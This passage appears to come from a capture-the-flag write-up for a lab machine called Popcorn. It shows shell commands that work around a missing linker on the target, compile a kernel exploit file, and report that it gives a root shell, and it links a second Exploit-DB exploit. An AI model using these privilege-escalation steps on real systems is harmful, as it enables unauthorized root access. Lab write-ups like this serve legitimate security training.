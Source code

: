 But this generates a new error:

```
collect2: cannot find 'ld'
```

find this on the target and put it in a location GCC can find:

```bash
which ld
cp /usr/bin/ld /tmp/ld
chmod +x /tmp/ld
export PATH=$PATH:/tmp
gcc -pthread /tmp/40839.c -o /tmp/40839 -lcrypt -I/usr/lib/gcc/i486-linux-gnu/4.4/include/
```

After this, the exploit compiles and runs to give a `root` shell:

![root1](./popcorn/root1.png)

---

Here is another way to `root` as well:

- https://www.exploit-db.com/exploits/15704
